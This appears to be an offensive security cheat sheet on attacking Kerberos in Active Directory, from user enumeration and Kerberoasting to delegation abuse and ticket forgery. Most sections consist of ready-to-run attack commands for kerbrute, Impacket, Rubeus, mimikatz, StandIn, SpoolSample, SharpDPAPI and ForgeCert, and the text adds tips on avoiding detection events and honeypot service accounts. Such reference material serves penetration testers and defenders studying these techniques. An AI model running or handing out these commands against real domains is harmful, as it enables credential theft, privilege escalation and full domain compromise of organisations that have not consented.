

Kerberos
Port: 88Protocol:tcp,udp
Table of content
- Overview
- Bruteforce users
- Kerberoasting
- AS-REP Roasting
- Unconstrained delegation
- Resource based Constrained Delegation
- S4U Self abuse
- Play with krbtgt
- Forged Certificate
Overview
The following figure shows the principal step of Kerberos proper functioning:

- During user login,
AS-REQrequest to theKey Distribution Center(KDC) usually exposed by theDomain Controller. This request asks for aTGTwith a secret derived from the user password - The
KDCverify the secret key and return theTGTas anAS-REPmessage if the secret key can be validated against the user password stored in theAD.
The
TGTcontains the user identity and is encrypted using theKDC secret key(ie the krbtgt account password)
- When the user wants to access a service, it asks for a
Ticket Granting Service(TGS) to theKDCthrough aTGS-REQmessage with theService Principal Name(SPN) and itsTGS. TheSPNidentify the service and theTGSauthenticate the user.
An
SPNis an identifier linking the service instance with a logon account. They are configured in theUser ObjectinAD
- The
KDCverify that the userTGTand then sends back theTGSthrough aTGS-REPmessage. TheKDCdoes not verify if the user can access the service, but when the service is reached and aTGSis presented as a means of authentication, it will inspect the ticket and decide whereas the user is authorized to access the service or not.
A
TGSfor a given service can be generated even if the user is not authorized to access the service. TheKDCis for authentication only and not authorization.The
TGSis encrypted with the service account password
Bruteforce users
Kerberos can be used to enumerate valid users on the domain.
Use kerbrute:
kerbrute userenum --domain ${domainName} ${userList} --dc ${dcIp}
Kerberoasting
Part of the TGS is encrypted with the service account password. It is then possible to crack them offline to retrieve the service account password.
Kerberosting is not really
OPSEC: an event is4769is generated when a service ticket is generated.
Some companies use fake service accounts as honey pot. When a ticket is requested for this fake service account, an alert is raised.
Thus, when wanting to perform Kerberoast attacks, search manually service accounts and ask for a TGS selectively.
The following LDAP query can be used to look at SPN account:
# LDAP
(&(sAMAccountType=805306368)(servicePrincipalName=*))
# Bloodhound
MATCH (u:User {hasspn:true}) RETURN u
Impacket can be used to get the ticket from these users:
impacket-GetUserSPNs ${domain}/${user}:{password} -request -dc-ip 10.10.10.169
Worth a try without any password
imapcket-GetUserSPNs ${domain}/${user} -request -dc-ip 10.10.10.169 -no-pass
AS-REP Roasting
If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user. Then the TGS can be cracked to retrieve the password.
The following LDAP query can be used to retrieve users impacted:
# LDAP
(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
# Bloodhound
MATCH (u:User {dontreqpreauth:true}) RETURN u
AS-REPis notOPSECand should not be used
A list of possible username can be generated using username-anarchy or namemash
while read p; do GetNPUsers.py ${domain}/"$p" -request -no-pass -dc-ip ${dcIp} >> hash.txt; done < ${possibleUsernameList}
# The / at the end is mandatory
impacket-GetNPUsers -no-pass -usersfile ${usersList} -format john -dc-ip ${dcIp} ${domain}/
Unconstrained delegation
Overview
Delegation allows a user or a service to act on behalf of another user to another service. For example, if an exposed service is used as a proxy to a database, the user will authenticate on the exposed service and the service will be able to authenticate itself on the behalf of the user to the database.
When a service with Unconstrained Delegation authenticate to another service, its TGS used to authenticate on the remote service will contain the TGT of the user connecting to the local service. This TGT will be cached in memory.
So if an admin access to a service with unconstrained delegation, its TGT will be cached in memory. Thus, if the machine is compromised, all TGT can be dumped to impersonate users.
Unconstrained Delegation can be found using the following LDAP request:
# LDAP
(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))
# Bloodhound
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
Rubeus can be used to monitor and dump TGT on a machine. When a TGT is found, it can then be injected on the user session with CobaltStrike:
- Retrieve the
base64ticket and write it in a.kirbifile - Create sacrificial logon session :
make_token ${domain}\${user} fakePassword - Inject the
TGT:kerberos_ticker_use ${pathToKirbi}
Printer Bug
This bug allows an adversary to coerce a forest's machine (MACHINE A) to perform authentication on another forest's machine (MACHINE B). The authentication is triggered through RPC calls such as RpcRemoteFindFirstPrinterChangeNotificationEx that notify a change between a printer server (MACHINE A) and a printer client (MACHINE B), hence the authentication of the "new" printer server to the client.
If the MACHINE B is configured with Unconstrained Delegation, it will be possible to retrieve a TGT for MACHINE A on MACHINE B. Hence, using this MACHINE A TGT it will be possible to retrieve TGS for every service on MACHINE A and thus compromise the machine.
If MACHINE A is a Domain Controller, you will compromise the domain.
The proof of concept code can be found here.
On the MACHINE B configured with Unconstrained Delegation a run Rubeus to monitor for new TGT:
Rubeus.exe monitor /targetuser:DC-2$ /interval:10 /nowrap
On your workstation, run the SpoolSample proof of concept on your workstations:
SpoolSample.exe ${MACHINE A} ${MACHINE B}
Once the MACHINE A TGT is retrieved, it can be injected in the CS session using make_token and kerberos_ticket_use as explained in the Unconstrained Delegation part.
Resource based Constrained Delegation
With Constrained Delegation the server does not cache the TGT anymore, but will be able to request TGS for specific services on the behalf of other users with its own TGT.
The Constrained Delegation computers can be found using the following LDAP request:
# Search for user AND computer as Constrained Delegation can be configured for both these objects
# LDAP
(&(objectCategory=computer)(msds-allowedtodelegateto=*))
# Bloodhound
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
To run RBCD attack, you must control a object considered as a service by Kerberos. Usually one of these:
- A user account having a
ServicePrincipalNameset - An account with a trailing
$in thesAMAccountName(i.e. a computer accounts)
Configure RBCD
If you have the privileges to write the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of another resource (GenericWrite, specific ACE), you can configure RBCD on this objects.
The StandIn tool can be used to ease configuration of RBCD on a remote ressource.
First, create the new machine (this step can be ignored if you already control a machine account):
Standin.exe --computer ${computerName} --make
Then, configure the RBCD on the target machine and add the newly created machine as an msDS-AllowedToActOnBehalfOfOtherIdentity in the target machine:
Standin.exe --computer ${targetMachineName} --sid ${createdComputerSID}
You can check that the configuration has been succesfully performed:
StandIn.exe --object samaccountname=${targetMachineName}
You should see your newly created computer SID in the msds-allowedtoactonbehalfofotheridentity part on the response.
Exploit
To exploit the Constrained Delegation the TGT of the server must be retrieved using mimikatz:
mimikatz sekurlsa::ekeys
# Use the AES keys to generate a `TGT`
# You can use Rubeus hash to compute aes key from NTLM/RC4 or plaintext password
Rubeus.exe asktgt /user:${machineAccount} /aes256:${aesKey} /opsec /nowrap
Or Rubeus:
Rubeus.exe triage
Then, a TGS can be generated. This TGS, generated with the Constrained Delegation server TGT, will impersonate the user:
# machineAccount : the machine account created or already controlled
# spnToImpersonate : cifs/targetResource, you can set what you want as service
# userToImpersonate : usually a local administrator on the target resource
Rubeus.exe s4u /impersonateuser:${userToImpersonate} /msdsspn:${spnToImpersonate} /user:${machineAccount} /ticket:${base64TGT} /nowrap
s4udoes not check thespnusing the/altservice:${serviceName}parameter. Thus, you can in fact ask aTGSfor any service of the machine contained in theConstrained Delegationparameter.
S4U Self abuse
The Service For User (S4U) contains two interesting extensions:
Service For User To Selfwhich allows a service to obtain aTGSon behalf of another userService For User to Proxywhich allows a service to obtain aTGSon behalf of another user on another service
During Constrained Delegation exploit, these two extensions are used to first obtain a TGS on the Constrained Delegation machine on behalf of the user using S4U2Self and then, to obtain TGS on the specific targeted service on the remote machine using S4U2Proxy.
The S4U can be leveraged to escalate from System Account to Administrator on a machine.
Get a TGT
Indeed, even if running with local service account, the network connections are authenticated using the Computer Account. It is then possible to retrieve a TGT for the Computer Account using Rubeus:
./Rubeus.exe tgtdeleg /nowrap
Get a TGS
Then, once the TGT is acquired, a TGS is generated. This TGS is generated using S4USelf and will impersonate a user that IS a machine local admin (Domain Administrator for example):
Rubeus.exe s4u /user:${computerAccount} /msdsspn:cifs/${computerDNS} /impersonateuser:${localAdmin} /ticket:${TGT} /nowrap
The Rubeus execution will fail when trying the S4UProxy step, but the ticket generated by S4USelf will be printed.
Fix the service name
The generated ticket is not crafted with an interesting service name. However, the service name is not included in the TGS ciphered data and can be modified at will.
The TGS can be modified using ASN1Editor. Change the instances where GENERAL "${computerAccount} appears:
- Replace the string with
cifs - On the parent sequence, add a new string node with
1bas tag fields and the machineFQDNas value - Save the ticket
Or, simply through Rubeus:
Rubeus.exe tgssub /ticket:${ticket} /altservice:cifs/${ServerDNSName} /ptt
You can use Rubeus to ensure the ticket has been well modified :
Rubeus.exe describe /ticket:${pathToTicket}
You can now inject the ticket in your session.
Look at this lab to test the technique !
Play with krbtgt
Silver Ticket
The Silver Ticket is a TGS signed with a computer account key.
When the computer account key material is retrieved, it is possible to forge a ticket for any user on any service on the machine.
The computer key change usually every 30 days
The following services can be interested:
CIFS: allow the use ofpsexecHTTP: allow the use ofwinrmLDAP: allowdcsynconDC
Golden Ticket
A Golden Ticket is a TGT signed by the krbtgt account. When the Silver Ticket gives you access to a specific service on a specific host, the Golden Ticket can be used to retrieve a TGS on every services of every hosts.
The
krbtgtsecrets are usually not changed on a regular basis
Diamond Ticket
The Golden Ticket can be easily detected as the attacker will request a TGS without requesting a TGT before, *ie the TGS-REQ will not have a matching AS-REQ.
A Diamon Ticket will modify a TGT that have been legitimatly issued by the DC. Thus, to forge a Diamond Ticket, just retrieve a TGT and decrypt it, modify the fields you need and finaly re-encrypt it.
Forged Certificate
ADCS are usually less secured than DC.
If an attacker retrieves the CA private key, he will be able to sign forged certificates.
The CA private key can be extracted using SharpDPAPI:
SharpDPAPI.exe certificates /machine
Once the key is extracted in a .pem file, it is converted into .pfx format. Then, ForgeCert can be used to forge a new certificate:
ForgeCert.exe --CaCertPath ${pathCAPfx} --CaCertPassword ${pfxPassword} --Subject "CN=User" --SubjectAltName "${impersonatedUser}" --NewCertPath .\fakeCert.pfx --NewCertPassword pass123
Then, Rubeus can be used to get a TGT using the certificate.
It is also interesting to generate certificate for machine and use the
S4U2Self Abusetrick to compromise the machine